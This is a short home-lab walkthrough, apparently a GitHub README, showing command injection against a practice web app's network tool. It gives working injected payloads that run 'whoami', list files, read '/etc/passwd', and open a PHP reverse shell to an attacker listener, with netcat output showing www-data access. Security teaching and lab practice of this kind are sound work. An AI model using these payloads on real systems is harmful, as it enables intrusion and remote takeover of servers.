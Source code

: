 # Command Injection - Basics

- In the network analysis tab, I am proceeding to conduct command injection to assess the system's vulnerability.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cd982e2e-b051-4333-8e9d-6046353d2bd7)

- By utilizing the command `https://<IP>; whoami;echo http/`, I successfully fetched the user information.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a5f05fef-23a3-4aba-b031-94fe4f141834)

- By passing the payload `https://<IP>; ls -lah;asd`, I managed to retrieve the files present in the system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/78f51f72-93a6-4d82-9e01-c61ea3cc351d)

- By utilizing the command `https://<IP>; cat /etc/passwd;asd` I successfully retrieved the user information

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/38d63085-e598-4ef8-8ece-321b48ec0e98)

- By employing the PHP reverse shell `https://<Target IP>; php -r '$sock=fsockopen("LHOST",4242);exec("/bin/sh -i <&3 >&3 2>&3");';asd`, I was able to prompt a reverse shell.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/3b86c2bd-8f91-4032-b2bd-de8e1e55ee19)

#### Shell:

```bash
└─$ rlwrap nc -nvlp 4242
listening on [any] 4242 ...
connect to [xxx.xxx.xxx.186] from (UNKNOWN) [xxx.xx.0.4] 59348
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
